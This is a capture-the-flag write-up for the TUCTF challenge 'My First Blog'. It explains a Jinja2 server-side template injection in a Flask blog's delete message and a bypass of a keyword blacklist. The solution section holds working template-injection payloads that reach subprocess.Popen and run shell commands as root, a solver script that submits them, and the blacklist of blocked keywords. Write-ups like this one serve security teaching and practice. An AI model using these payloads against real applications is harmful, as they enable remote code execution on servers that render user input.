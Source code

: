 # My First Blog [28 Solves]

## Description

> Welcome to My First Blog! Feel free to poke around and test things out, just know that hacking is strictly not allowed.
>
> <https://my-first-blog.tuctf.com>

No Attachment

## Flag

TUCTF{BL4ckL1st$_R34lly_$uck}

## Solution

This challenge has Flask Jinja2 SSTI in a flush message when delete a post.
The blacklist limits the characters available for SSTI payloads.

### SSTI Detection

Create a post:

![save](img/My_First_Blog_save.png)

Delete a post in edit page:

![delete.png](img/My_First_Blog_delete.png)

![detect_ssti](img/My_First_Blog_detect_ssti.png)

Detected SSTI.

### Blacklist Bypass

Tried `{{ config }}` payload, the results is the following:

![ssti_blacklist](img/My_First_Blog_ssti_blacklist.png)

It displayed the blacklist for SSTI, and it looks like `config` is included into it.

blacklist are `config` `class` `request` `self` `global` `getitem` `base` `os` `mro` `import` `builtins` `popen` `read` `write` `system` `eval` `exec` `+` `.` `[` `]` `_`

Let's think about the available features:

- `|`: `|attr` and `|lower`
- `"` `()`: method call
- `"\x5f"`: underscore `_` bypass
- `"\x5f\x5fCLASS\x5f\x5f"|lower`: bypass `class` and `base`
- `attr("method")()`: method call
- `foolist|attr("pop")(372)` is available for instead of accessing the element with `[]`

### Test payload

Setup and tested a payload in local environment:

```python
from flask import Flask, render_template_string
app = Flask("myapp")
def test(p):
    with app.app_context():
        print(render_template_string(p))

test('{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)() }}')
# output subclasses list

# filter only Popen with for loop
test('{% for c in "".__class__.__base__.__subclasses__() %}{% if "Popen" in c.__name__ %}{{ c|attr("\x5f\x5fname\x5f\x5f") }}, {{ loop|attr("index0") }}{% endif %}{% endfor %}')
# output => Popen, 509

# without selecting index
test('{% for c in "".__class__.__base__.__subclasses__() %}{% if "Popen" in c.__name__ %}{{ c("id",shell=True,stdout=-1)|attr("communicate")() }}}}{% endif %}{% endfor %}')
# output => (b&#39;uid=0(root) gid=0(root) groups=0(root)\n&#39;, None)}}

# with selecting index
test('{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)()|attr("pop")(509)("id",shell=True,stdout=-1)|attr("communicate")() }}')
# output => (b&#39;uid=0(root) gid=0(root) groups=0(root)\n&#39;, None)
```

### Exploit

```python
# solver.py
from html import unescape
from pwn import args, context

context.log_level = "error"

import requests
import re

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://my-first-blog.tuctf.com"

# blacklist
blacklist = [
    "config",
    "class",
    "request",
    "self",
    "global",
    "getitem",
    "base",
    "os",
    "mro",
    "import",
    "builtins",
    "popen",
    "read",
    "write",
    "system",
    "eval",
    "exec",
    "+",
    ".",
    "[",
    "]",
    "_",
]


def main():
    payload = args.PAYLOAD if args.PAYLOAD else "{{7*7}}"

    # assertion
    for b in blacklist:
        assert b not in payload, f"matched blacklist: {b}"

    s.get(BASE_URL)
    res = s.post(
        f"{BASE_URL}/create",
        data={"title": payload, "content": ""},
    )

    m = re.findall(r'<a href="/edit/(.*?)">', res.text)
    if not m:
        print("not match.")
        return

    uuid = m[-1]

    res = s.post(f"{BASE_URL}/delete/{uuid}")

    m = re.findall(r'Post "(.*?)" was successfully deleted!', res.text)
    if not m:
        print(f"not matched flush message")
        print(unescape(res.text))
        return

    print(m[0])


if __name__ == "__main__":
    main()
```

First, find the position of `subprocess.Popen` in the output of subclasses():

```console
$ python3 solver.py PAYLOAD='{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)() }}'
[<class 'type'>, <class 'async_generator'>, (snip), <class 'subprocess.Popen'>, (snip), <class 'cachelib.serializers.BaseSerializer'>]
```

Save the output to a file called subclasses.txt and then read it using Python to print the index of `subprocess.Popen`.

```python
data = open('subclasses.txt').read()
[i for i, s in enumerate(data.split(', ')) if "subprocess.Popen" in s]
# output => [372]
```

Another approach is to paste the output result into the editor, separate it into individual lines, and check the line numbers of `subprocess.Popen`:

![check_popen_index](img/My_First_Blog_check_popen_index.png)

Execute `id` bash command.
Note: it should be `pop(372)` not `pop(373)` because of 0-index.

```console
$ python3 solver.py PAYLOAD='{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)()|attr("pop")(372) }}'
<class 'subprocess.Popen'>

$ python3 solver.py PAYLOAD='{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)()|attr("pop")(372)("id",shell=True,stdout=-1)|attr("communicate")() }}'
(b'OK, you got me. Here you go: TUCTF{BL4ckL1st$_R34lly_$uck}\n', None)
```

## References

- [Template Designer Documentation — Jinja Documentation (3.1.x)](https://jinja.palletsprojects.com/en/3.1.x/templates/#builtin-filters)
- [Jinja2 template injection filter bypasses \|](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [subprocess — Subprocess management — Python 3.12.0 documentation](https://docs.python.org/3/library/subprocess.html)
